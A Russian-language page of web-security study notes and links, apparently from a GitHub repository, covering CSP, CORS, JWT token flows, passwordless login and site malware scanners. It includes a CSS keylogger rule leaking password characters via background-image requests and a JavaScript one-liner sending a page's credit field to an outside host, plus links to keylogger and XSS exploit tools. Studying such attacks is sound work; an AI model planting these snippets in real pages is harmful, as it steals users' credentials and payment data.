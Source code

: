 ##  security

 * https://www.html5rocks.com/en/tutorials/security/content-security-policy/
 * [случайные числа](https://medium.com/@frontman/случайные-числа-не-случайны-252e08e60828/)
 * [css кейлоггер](http://css-live.ru/articles-css/storonnij-css-nebezopasen.html)
 * https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css
 * [https](https://www.troyhunt.com/the-6-step-happy-path-to-https/)
 * [сканер уязвимостей](https://snyk.io/)
 * [поле ввода пароля](https://www.troyhunt.com/bypassing-browser-security-warnings-with-pseudo-password-fields/)
 * [технологии аутентификации](https://github.com/teesloane/Auth-Boss)
 * [web checklist 2017](https://simplesecurity.sensedeep.com/web-developer-security-checklist-f2e4f43c9c56)
 * [Топ-25 программных ошибок, составленный CWE/SAN;](http://cwe.mitre.org/top25/#Listing)
 * [Топ-10 угроз безопасности веб-приложениям, составленный OWASP.]()
 * [оценка безопасности ПО](https://tproger.ru/translations/measuring-the-security-of-your-software/)
 * http://tproger.ru/tag/safe-code/
 * [Анализ уязвимостей процесса аутентификации](https://bmsdave.github.io/blog/auth-vulnerabilities/)

```css
input[type="password"][value$="A"] { background-image: url("http://localhost:3000/A"); }

body { 
  font-family: -apple-system, BlinkMacSystemFont, “Segoe UI”, Roboto, Helvetica, Arial, sans-serif;
}
```
 * https://css-tricks.com/snippets/css/font-stacks/
 


### cors

 * https://fetch.spec.whatwg.org/#concept-http-fetch
 * https://fetch.spec.whatwg.org/#concept-request-mode
 * http://grishaev.me/cors
 * http://restlet.com/company/blog/2015/12/15/understanding-and-using-cors/
 * https://www.html5rocks.com/en/tutorials/cors/
 * маскируемся под форму:
 ```
 POST
 data: "user=111&PWD=1111"
 'Content-Type': 'application/x-www-form-urlencoded'
 ```
 * [расширение хрома](https://github.com/chrisdeely/ForceCORS)
    * https://chrome.google.com/webstore/detail/forcecors/oajaiobpeddomajelicdlnkeegnepbin
 * [втыкаем прокси для вебпака](https://github.com/angular/angular-cli/blob/master/docs/documentation/stories/proxy.md)
 ```
	const PROXY_CONFIG = [
			{
			"/server": {
				"target": "https://server:8081/api",
				"secure": false,
				"changeOrigin": true,
				"index": "",
				"host": "server:8081/",
				"logLevel": "debug",
				"pathRewrite": {
					"^/server": ""
			}
		}
	]

	module.exports = PROXY_CONFIG;
 
 ng serve --proxy-config proxy.conf.js
 ```
 * [заголовки http](https://www.w3.org/TR/cors/#syntax)
 * проверка
 ```bash
 curl -v 'http://8.8.8.8:8080/index.html' --data 'user=11111&pass=22222' -H 'Content-Type:application/x-www-form-urlencoded'
 curl -v 'http://8.8.8.8:8080/index.html?user=11111&pass=22222' -H 'Content-Type:application/json'
 ```
 * [сценарии атак на cors](https://www.securitylab.ru/analytics/498754.php)
 

##  авторизация и аутентификация

 * [обзор видов авторизации](https://flowers-for-all.com/post/28443)
 * [jwt](https://habrahabr.ru/company/Voximplant/blog/323160/)
 * https://habrahabr.ru/company/Voximplant/blog/323160/

Разница между access_token и refresh_token:

— access_token не нужно хранить в базе данных, с помощью JWT можно хранить данные в токене — например userId, таким образом при каждом запросе к серверу мы избавляемся от лишнего запроса к базе данных так как ID юзера можно получить из токена
— refresh_token хеш который хранится в базе данных.
1. Сервер получает логин/пароль — создает access_token и refresh_token, сохраняет в базу refresh_token, отдает токены на клиент
2. Клиент использует access_token для доступа к данным пока приложение не будет закрыто, сохраняет refresh_token в хранилище
3. Если получает от сервера сообщение что срок access_token истек — отправляет запрос на авторизацию с refresh_token, если refresh_token не истек и совпадает с тем что в базе — сервер создает access_token и refresh_token, обновляет в базе refresh_token и отдает на клиент. Если refresh_token не валиден просит ввести логин/пароль
4. При инициализации приложения если есть refresh_token — делает тоже что и в 3 

1. refresh_token- это креденшалы для доступа в API при отсутствии сессии юзера. access_token — короткоживущий токен для доступа к ресурсу.
2. Разные требования к хранению и передаче(и выдаче). Тоесть узнать refresh_token вы обычно не можете, так как он не гоняется через front channel.
3. Работу с общей сессией лучше делегировать на ваш IdP/AS/OP по выбору. 

Если у вас задача аутентификации и авторизации в API и ваши клиенты это серверные приложения, то у вас есть так называемый Client credentials flow. И вам не нужен рефреш в принципе. Просто смотрите за лайфтаймом токена и обновляете его по необходимости.
Если есть возможность использования сертификатов, то есть client assertion grant: клиент генерирует JWT токен со своей информацией и подписывает его своим приватным ключиком. Сервер валидирует его, проверяет публичную часть (что у регистрации клиента привязан этот сертификат) и если все ок, выдает уже access_token для доступа в API.

Если веб(SPA) или есть webview то implicit flow. Получаете access_token и вперед в API. Как протухнет — редирект за обновлением или тихонечко в айфрейме запросик. Можно поковырять кишки вот тут.
https://github.com/AzureAD/azure-activedirectory-library-for-js/tree/dev/lib

### беспарольная авторизация

 * [webauthn/CTAP](https://habr.com/company/1cloud/blog/353966/)
 * [по почте](https://habrahabr.ru/post/279173/)

##  web sec

https://habrahabr.ru/company/ruvds/blog/346442/

```js
var devtools = /./;
devtools.toString = function() {
  this.opened = true;
}

console.log(devtools);

if (devtools.opened === true) {
    alert('Панель разработчика открыта');
} else {
    alert('Панель разработчика закрыта');
}
```

```js
let img=new Image(); img.src="https://LULsite.com/?credit="+$('.credit')[0].value;
```

 * https://dzone.com/articles/advanced-web-security-topics
 * https://firstwiki.ru/index.php/Поиск_вирусов_на_сайте/
 * http://www.webhostingbuzz.com/wiki/iframe-injection-hack-recovery/
 * https://firstwiki.ru/index.php/Аудит_безопасности/
 * [Поиск malware/вирусов на сайте 2014](https://kamaok.org.ua/?p=570)
 * [взлом и безопасность веб-сайтов school-php.com](https://www.youtube.com/watch?v=ll9ZqAk70kk)

## сканеры

 * https://rescan.pro/
 * [google dorks scanner](https://habrahabr.ru/post/283210/)
 * [linux malware detect](firstwiki.ru/index.php/Поиск_различных_malware_скриптов/)
 * [aibolit](http://www.revisium.com/ai/)
 * http://online.drweb.com/?url=1
 * http://antivirus-alarm.ru/
 * http://xseo.in/viruscan
 * http://2ip.ru/site-virus-scaner/
 * [owasp](https://www.owasp.org/index.php/OWASP_Xenotix_XSS_Exploit_Framework#Screenshots)

 ## DPI/DLP

  * https://github.com/ValdikSS/GoodbyeDPI
  * https://github.com/bol-van/zapret
